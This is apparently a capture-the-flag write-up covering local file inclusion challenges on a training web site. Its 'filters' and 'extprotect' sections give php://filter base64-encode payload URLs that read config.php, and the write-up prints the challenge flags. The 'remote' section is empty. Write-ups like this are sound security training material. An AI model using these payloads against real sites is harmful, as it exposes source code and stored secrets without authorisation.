


### LFI

## noprotection

We are welcomed with a "Flag is in an obvious html place"

So we can try to get flag.html file

>[!IMPORTANT]
ZOB{y34h_y0u_f0und_m3} 

## filters

PHP Filter are a known way to get file so if we try the following

> https://filters.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config.php

We will get the config.php file converted in base64

>[!IMPORTANT]
BFS{U_h4v3_Un0!!!}

## extprotect

Once again we will try with the payload from the previous challenge

We can see that there is an issue with an additional .png so we will remove it from our payload

https://extprotect.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config

>[!IMPORTANT]
ZOB{3v3n_pr0t_c4n7_st0p_m3}

## remote

